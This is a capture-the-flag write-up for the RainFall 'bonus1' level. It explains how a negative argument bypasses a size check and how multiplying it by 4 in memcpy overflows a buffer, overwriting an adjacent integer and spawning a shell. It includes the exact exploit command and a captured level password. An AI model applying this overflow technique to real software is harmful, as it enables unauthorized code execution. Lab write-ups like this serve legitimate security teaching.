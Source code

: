 this is a basic integer overflow challenge.

in this program we have a `main` that calls `atoi` to convert the first argument passed to an int, the compares it to the number `9`, if it's smaller or equal it then uses `memcpy` to copy bytes from the second argument passed to a local buffer of size 40.

```c
value = atoi(av[1]);
if (value <= 9) {
    memcpy(buf, av[2], value * 4);
```

after that it checks the int value if its equal to `0x574f4c46` => WOLF, if so it will execute `/bin/sh`.

```c
if (value == 0x574f4c46)
    execl("/bin/sh", "sh", 0);
```

we can easly bypass this by giving atoi a negative number and then we overflow it when we multiply by 4 in `memcpy` call.

since the buffer is 40 bytes long then we need to write 44 bytes into the buffer to overwrite the integer after it.

```c
char    buf[40];
int     value;
```

the negative value we enter is `-1073741813` because -107374181 : 

```
-1073741813 => 1100 0000 0000 0000 0000 0000 0000 1011
                 ^                                  ^
                 |                                  |
            the bytes that will         the value 11 that will
            go after overflow           will be multiplied to
                                        be 44.
```

when we multiply it by 4 it will be :

```
0000 0000 0000 0000 0000 0000 0010 1100
```

now all we have to do is give the program the 2nd argument that will put our value `0x574f4c46` in the local int variable:

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
```

now we have all we need:

```bash
bonus1@RainFall:~$ ./bonus1 -1073741813 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAFLOW
$ pwd
/home/user/bonus1
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

and there you go.
